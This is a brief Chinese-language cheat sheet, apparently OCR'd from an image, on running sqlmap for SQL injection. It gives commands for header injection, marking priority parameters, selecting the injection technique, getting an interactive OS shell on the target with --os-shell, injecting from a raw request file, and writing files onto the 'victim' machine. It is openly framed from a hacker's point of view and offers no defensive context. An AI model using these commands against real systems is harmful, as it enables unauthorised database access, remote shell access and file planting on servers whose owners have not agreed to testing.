 ### 请求头注入

./sqlmap.py -u "url" --header"id:5"

### 注入优先级

sqlmap星号优先指定注入

例：**./sqlmap.py -u "localhost://a.php?id=1&group=4&appid=5*&key=1DEF55ADSC"**

在参数appid的值5后面加一个“*”，来让sqlmap来优先注入此值

### 注入方式的选择

为了节约时间，HACKER可能已经知道这个是什么类型的注入漏洞

他可以直接选择相应的注入方式

例：--technique "U"  只选择联合注入

### SQLmap命令执行

#### 系统SHELL获取

./sqlmap.py -u "url" --os-shell   系统交互shell

来获取对方的shell

Custom location：可以通过一些mysql_error等来得到对应的路径

#### 数据包注入（推荐）

利用  -r 参数

直接传入HTTP头，这里面包括get/post ，cookie 等等数据，就不需要什么

-u --cookie --headers等等

简单暴力，方便易行

### SQLMAP其他的常用功能：

1. 代理    ./sqlmap.py -u "url" --proxy"http://127.0.0.1:8080"

2. 多线程   ./sqlmap.py -u "url" --threads 3

3. 指定数据库   ./sqlmap.py -u "url" --dbms "MySQL"

4. 向受害者写入本地文件   ./sqlmap.py -u "url" --file-write "My file"  --file-dest "HIS PATH"
